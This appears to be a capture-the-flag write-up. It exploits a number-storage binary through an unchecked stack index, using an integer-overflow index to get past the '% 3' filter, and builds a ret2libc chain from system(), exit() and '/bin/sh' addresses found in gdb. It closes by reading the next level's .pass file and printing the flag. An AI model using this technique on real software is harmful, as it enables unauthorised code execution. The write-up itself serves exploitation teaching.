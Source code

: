 
# Welcome to wil's crappy number storage service !

## Program summary
On this level we are provided with a program which has the function of saving passwords at a given index in the stack. As usual we will focus on vulnerabilities.

Input restrictions :

- Valid command
- The index must have a rest after a **% 3**.
- The **number >> 0x18 == 0xb7**, should not satisfy this condition.

The **`store_number()`** function is called with the buffer addr as argument which contains all the numbers saved by storage. Below I show you several small sections in the assembly code, the index input is saved at **`$ebp-0xc`** and then an assignment takes place with the number.

```
08048630 <store_number>:
...
8048666:	e8 7c ff ff ff       	call   80485e7 <get_unum>
804866b:	89 45 f4             	mov    DWORD PTR [ebp-0xc],eax
...
80486c2:	8b 45 f4             	mov    eax,DWORD PTR [ebp-0xc]
80486c5:    c1 e0 02           		shl    eax,0x2
80486c8:	03 45 08             	add    eax,DWORD PTR [ebp+0x8]
80486cb:	8b 55 f0             	mov    edx,DWORD PTR [ebp-0x10]
80486ce:	89 10                	mov    DWORD PTR [eax],edx
```

## Vulnerability

The index input allows to write on a very wide range of the stack without verification upstream, it's an excellent source of vulnerability, if we manage to point it in the right place. 

## Attack design

1. Get Offset

Now we need to find the exact OFFSET to inject our malicious code, that is to say the address of the environment variable that we will create with shellcode. What we will do in order to get the OFFSET is to locate the ret addr of main and calculate the distance from the start of the buffer which serves as a number storage manager.
```
(gdb) b store_number
Breakpoint 1 at 0x8048636
(gdb) backtrace
#0  0x08048636 in store_number ()
#1  0x080488ef in main ()
(gdb) info frame 1
Stack frame at 0xffffd620:
 eip = 0x80488ef in main; saved eip 0xf7e45513
 caller of frame at 0xffffd430
 Arglist at 0xffffd618, args: 
 Locals at 0xffffd618, Previous frame's sp is 0xffffd620
 Saved registers:
  ebx at 0xffffd60c, ebp at 0xffffd618, esi at 0xffffd610, edi at 0xffffd614, eip at 0xffffd61c
(gdb) x $ebp+0x08
0xffffd430:	0xffffd454
```
As explained recently I read on **`$ebp-0x08`** since the addr of the buffer number storage manager resides there.

Buffer that holds numbers 0xffffd454 = 4294956116
EIP location in main stack frame 0xffffd61c = 4294956572

`4294956572 - 4294956116 = 456`

OFFSET will be **456**

`456 >> 2 = 114 or 456 / 4 = 114`

However 114 is not accepted as input since: **114 % 3 = 0**.

But this is not really a problem because in itself, our input is modified after the preflight check, which means that we can play with an overflow. Let's enter the right value so that it overflows with an SHL of 2 to fall back to the initial value 114.
```c
if ((uVar2 % 3 == 0) || (uVar1 >> 0x18 == 0xb7))
{
    puts(" *** ERROR! ***");
    puts("   This index is reserved for wil!");
    puts(" *** ERROR! ***");
    uVar3 = 1;
}
else
{
    *(uint *)(uVar2 * 4 + param_1) = uVar1;
    uVar3 = 0;
}
```

Overflow exploit :

```
unsigned int overflowVal = (std::pow(2, 32) / 4) + 114; -> 1073741938
4 * overflowVal = 456
```


2. Retrieve the **`system()`** address :
```c
(gdb) p system
$1 = {<text variable, no debug info>} 0xf7e6aed0 <system>
```

3. Retrieve **`exit()`** address :
```c
(gdb) p exit
$1 = {<text variable, no debug info>} 0xf7e5eb70 <exit>
```

4. Find **`"/bin/sh"`** string address in libc-2.15.so using **`find`** command :
```
(gdb) info proc map
process 1857
Mapped address spaces:
	Start Addr   End Addr       Size     Offset objfile
	...
	0xf7e2c000 0xf7fcc000   0x1a0000        0x0 /lib32/libc-2.15.so
	...
(gdb) find 0xf7e2c000, 0xf7fcc000, "/bin/sh"
0xf7f897ec
1 pattern found.
```

Now we are going to store these 3 addresses necessary for the execution of our attack with this faulty storage system.

```
store
...
number 4159090384
index 1073741938
...
number 4159040368
index 115
...
number 4160264172
index 116
```

```
$ cat /home/users/level08/.pass            
7WJ6jFBzrcjEYXudxnM3kdW7n3qyxR6tk2xGrkSC
```

> Flag : 7WJ6jFBzrcjEYXudxnM3kdW7n3qyxR6tk2xGrkSC

